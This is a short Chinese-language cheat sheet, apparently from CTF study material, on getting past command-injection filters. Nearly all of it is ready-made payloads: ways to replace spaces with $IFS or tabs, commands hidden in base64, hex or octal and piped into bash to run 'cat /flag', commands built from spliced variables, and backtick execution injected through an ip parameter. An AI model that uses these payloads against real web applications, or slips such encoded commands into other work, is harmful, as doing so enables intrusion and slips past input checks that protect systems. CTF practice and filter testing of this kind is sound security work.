

绕过技巧
1、空格绕过：< 、<>、%09(tab键)、%20、$IFS$9、$IFS$1、${IFS}、$IFS等，还可以用{} 比如 {cat,flag}
2、关键字绕过：
- （1）URL编码
- （2）Base64编码：echo MTIzCg==|base64 -d    其将会打印123         //MTIzCg==是123的base64编码
echo "Y2F0IC9mbGFn"|base64 -d|bash      将执行了cat /flag        //Y2F0IC9mbGFn是cat /flag的base64编码
echo "bHM="|base64 -d|sh               将执行ls
- （3）Hex编码：echo "636174202f666c6167"|xxd -r -p|bash     将执行cat /flag
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")         执行cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0       执行cat /flag
- （4）Oct编码：$(printf "\154\163")       执行ls
- （5）偶读拼写：?ip=127.0.0.1;a=l;b=s;$a$b
- （6）内敛执行：echo "a`pwd`"          #输出a/root
?ip=127.0.0.1;cat$IFS$9`ls`